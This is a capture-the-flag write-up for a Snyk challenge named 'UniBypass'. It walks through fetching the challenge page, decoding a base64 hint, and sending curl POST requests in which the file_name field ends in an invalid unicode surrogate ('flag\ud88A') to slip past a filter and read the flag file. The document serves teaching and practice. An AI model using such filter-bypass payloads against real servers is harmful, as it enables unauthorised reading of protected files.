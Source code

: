 # UniBypass

If you wanna be my parser, you gotta get with my friend.

## Objective

Just from the title, we can assume, that there is a possible form to fill and bypass.
The languages are python and JavaScript, so I could assume that there will be an interesting script embedded, possibly, into the HTML.


## Resources

***Link***: https://ctf-101.snyk.io/challenges#UniBypass

***Server***: http://35.211.91.235:8000


## Solution

We can retrieve the HTML page with the curl command as follows below:

```
$curl -X GET 35.211.91.235:8000 >> HelloHax0R.html                      
```
***Results***

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3394  100  3394    0     0  13872      0 --:--:-- --:--:-- --:--:-- 13909


If we take a look into the file, we can find two interesting hints.
The first is about the Javascript code that handles the form text to fill.

This script indicates us, that there is a logic regarding the  fetching of the file.


```
<script>
        window.onload = function(){
            document.querySelector('#submit').addEventListener('click', submit);
        }

        async function submit(){
            const file_name = document.querySelector('#file_name').value;
            const response = await fetch('/', {
                method:'POST',
                headers:{
                    'content-type':'application/json'
                },
                body: JSON.stringify({file_name})
            })
            const responseData = await response.json();
            alert(responseData.response);
        }
    </script>

```

In this possible solution, I will go through curl command and not the form text.
This is the command that I will use to exploit the form, changing only the value of *file_name*.


```
$curl -X POST 35.211.91.235:8000/ -H "Content-Type : application/json" -d '{"file_name":"flag"}' 

```

***Response***

{"response":"computer says no"}                                                                                                        
Therefore, let's go for the second hint, a base64 encoded, commented string on the bottom of the page.


```
<!--T25jZSBJIHdhcyBwYXJzaW5nLXllYXJzLW9sZCBteSBtb21teSB0b2xkIG1lCm1ha2Ugc3VyZSB5b3Ugd29yayB3LyBweXRob24gb3IgeW91J2xsIGdldCBsb25lbHkK-->
</body>
</html>

```
If we decode the string with the command base64 showed below:


```
echo "T25jZSBJIHdhcyBwYXJzaW5nLXllYXJzLW9sZCBteSBtb21teSB0b2xkIG1lCm1ha2Ugc3VyZSB5b3Ugd29yayB3LyBweXRob24gb3IgeW91J2xsIGdldCBsb25lbHkK" >> suspiciosString 


base64 -d suspiciosString


```
***Results***

Once I was parsing-years-old my mommy told me
make sure you work w/ python or you'll get lonely

*From this phrase, let's pick up some keywords for reasearch*

A good reasearch could be *parsing w/ unicode bypass*

After a deep browse I found a good article, which describes some invalid character to use https://charbase.com/d86e-unicode-invalid-character.

I tried different values and I assume that the form could be exploited with "flag/ud88*", below an example:

```
curl -X POST "http://35.211.91.235:8000/" -H "Content-Type: application/json" -d '{ "file_name" : "flag\ud88A"}'
```
***Results***

{"response":"SNYK{FLAG}"}






